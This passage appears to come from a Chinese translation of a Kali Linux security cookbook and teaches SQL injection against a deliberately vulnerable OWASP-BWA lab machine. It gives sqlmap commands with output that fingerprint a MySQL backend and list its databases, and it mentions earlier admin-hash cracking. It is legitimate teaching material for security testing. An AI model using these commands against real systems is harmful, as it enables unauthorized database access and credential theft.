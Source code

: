 几乎所有的模型网页应用都使用底层数据库来存储从应用配置、语言本地化、用户身份验证凭证、销售记录、病历到其他更多内容的信息。网页应用会从这些数据库中读取和写入数据，且这些应用直接面对互联网。

不幸的是，网页应用通常以允许远程用户将自己的命令插入输入表单的方式编写，这使得用户能够改变应用的行为，并可能直接访问数据库。

# 准备工作

要成功完成这一部分，你将需要以下内容：

+   按照*安装 OWASP-BWA*的食谱安装和配置 OWASP-BWA，第一章，*安装 Kali 和实验室设置*

+   你的 Kali Linux 桌面与 OWASP-BWA 实例之间的网络连接

+   在本书的 *扫描漏洞* 章节中，来自 OWASP-ZAP 的扫描结果，第九章，*Web 和数据库特定食谱*

+   你需要以用户名/密码 `admin` 登录到 `http://192.168.56.100/orangehrm/` 的 OrangeHRM 应用，并输入一些用户信息，因为 OWASP 提供的数据库中没有这些信息。

# 如何操作...

从 *扫描漏洞* 中的 OWASP-ZAP 扫描结果开始，我们将执行以下操作：

1.  正如在*黑客攻击 WordPress*中看到的，SQL 注入攻击使我们能够提取管理员用户的信息，之后通过 hashcat 破解了这些信息。我们将利用这个单一的漏洞，进一步突破不仅限于 WordPress 数据库。

1.  首先，我们需要识别底层的数据库。打开终端，在命令行输入以下内容：

```
root@kali:~/Chapter9# sqlmap -u "http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1"
```

1.  这将提供以下信息，表明它是 MySQL 5 或更高版本的服务器：

```
[03:00:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 10.04 (Lucid Lynx)
web application technology: PHP 5.3.2, Apache 2.2.14
back-end DBMS: MySQL >= 5.0
```

1.  接下来，我们需要查看目标系统上还有哪些其他数据库。从命令行运行以下命令：

```
root@kali:~/Chapter9# sqlmap -u "http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1" --dbs
```

1.  这将转储通过 SQL 注入向量访问的所有数据库列表：

```
[03:04:37] [INFO] fetching database names
[03:04:37] [INFO] the SQL query used returns 34 entries
available databases [34]:
[*] .svn
[*] bricks
[*] bwapp
[*] citizens
[*] cryptomg
[*] dvwa
[*] gallery2
[*] getboo
[*] ghost
[*] gtd-php
[*] hex
[*] information_schema
[*] isp
[*] joomla
[*] mutillidae
[*] mysql
[*] nowasp
```